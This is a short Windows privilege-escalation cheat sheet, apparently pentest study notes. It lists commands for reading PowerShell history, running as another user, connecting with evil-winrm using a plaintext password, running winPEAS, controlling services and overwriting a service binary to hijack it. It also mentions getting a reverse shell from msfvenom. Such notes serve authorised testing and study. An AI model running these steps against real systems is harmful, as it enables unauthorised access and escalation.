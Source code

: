 Read command history:
```
Get-History
```

```
(Get-PSReadlineOption).HistorySavePath
type output
```

Try to run some commands as another user (this on pops another terminal so you show use Windows GUI):
```
runas /user:user cmd
```

Enter as another user:
```
$password = ConvertTo-SecureString "password" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("username", $password)
Enter-PSSession -ComputerName ComputerName -Credential $cred
```

Using evil-winrm for remote connection:
```
evil-winrm -i 192.168.50.220 -u username -p "password"
```

### Automated
Using winPEAS
```
.\winPEASx64.exe
```
NOTE: Remember to use the correspondent winPEAS for your local system.
NOTE2: Remember to get another shell (from msfvenom) to use winPEAS, because sometimes your reverse_shell could crash.
NOTE3: Use it from a bash terminal, because it's colors are configured to be seen from a bash terminal.

### Windows Services

Start a service
```
sc start service
```
Stop a service:
```
sc stop service
```

#### Hijack service Binaries

Replace a binary:
```
cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```
